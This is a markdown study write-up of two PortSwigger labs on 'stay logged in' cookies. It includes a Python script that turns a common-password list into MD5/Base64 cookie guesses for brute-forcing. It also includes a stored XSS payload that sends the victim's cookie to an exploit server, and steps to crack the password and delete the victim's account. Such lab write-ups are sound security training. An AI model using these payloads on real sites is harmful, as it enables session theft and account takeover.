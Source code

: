 ```yaml
---
tags: ["cookie", "stay logged in"]
title: Stay logged in cookie
image: "img/Portswigger/authentication.png"
---
```


## Keeping users logged in

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in".

This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. As possessing this cookie effectively allows you to bypass the entire login process, it is best practice for this cookie to be impractical to guess. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp. Some even use the password as part of the cookie. This approach is particularly dangerous if an attacker is able to create their own account because they can study their own cookie and potentially deduce how it is generated. Once they work out the formula, they can try to brute-force other users' cookies to gain access to their accounts.

Some websites assume that if the cookie is encrypted in some way it will not be guessable even if it does use static values. While this may be true if done correctly, naively "encrypting" the cookie using a simple two-way encoding like Base64 offers no protection whatsoever. Even using proper encryption with a one-way hash function is not completely bulletproof. If the attacker is able to easily identify the hashing algorithm, and no salt is used, they can potentially brute-force the cookie by simply hashing their wordlists. This method can be used to bypass login attempt limits if a similar limit isn't applied to cookie guesses.

## Lab: Brute-forcing a stay-logged-in cookie

--> This website is storing the password in the `stay-logged-in` cookie in the encrypted form.

So we have to pass this request to intruder and then brute force the `stay-logged-in` cookie for `carlos` user

![](Attachments/Pastedimage20220204131145.png)

--> but first we have to logout because it will redirect us to this page only if we are logged in without checking the cookie.

And to encrypt the passwords according to cookie logic i made one python script:

```py
import hashlib
import base64

passwords = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]

converted = []
for password in passwords:
	hash_object = hashlib.md5(password.encode())
	md5_hash = hash_object.hexdigest()
	md5_hash = str(md5_hash)
	myCookie = "carlos:"
	myCookie += md5_hash
	convert_b64_bytes = myCookie.encode('ascii')
	base64_bytes = base64.b64encode(convert_b64_bytes)
	base64_string = base64_bytes.decode("ascii")
	base64_string = str(base64_string)

	converted.append(base64_string)

for word in converted:
	print(word)



# sample_string = "GeeksForGeeks is the best"
# sample_string_bytes = sample_string.encode("ascii")

# base64_bytes = base64.b64encode(sample_string_bytes)
# base64_string = base64_bytes.decode("ascii")
```

--> After running the python file i got all the encoded_cookies so now just we have to brute force them!

And after some time i found the correct cookie which gave us `200` status code!

![](Attachments/Pastedimage20220204131645.png)

And we solved the lab!

![](Attachments/Pastedimage20220204130542.png)

---

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as [XSS](https://portswigger.net/web-security/cross-site-scripting), an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

# Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

--> So first i logged in as `wiener` and then i found that we can comment on any post so i opened one post and commented the stored XSS payload :

```markup
<script>document.location='//exploit-acc81fe51e0eddf3c0598bf601660076.web-security-academy.net/'+document.cookie</script>
```

![](Attachments/Pastedimage20220204143051.png)

--> After posting the comment i went to `exploit server` and then went to `access logs` and found the cookie of `carlos`

![](Attachments/Pastedimage20220204143159.png)

--> After decoding the cookie from `base64` and `md5` i found the password as `onceuponatime` and i logged in as `carlos` and now we have to delete the account of carlos so click on delete account

![](Attachments/Pastedimage20220204134737.png)

--> It will ask for password, click `delete account!`

![](Attachments/Pastedimage20220204134800.png)

And we solved the lab!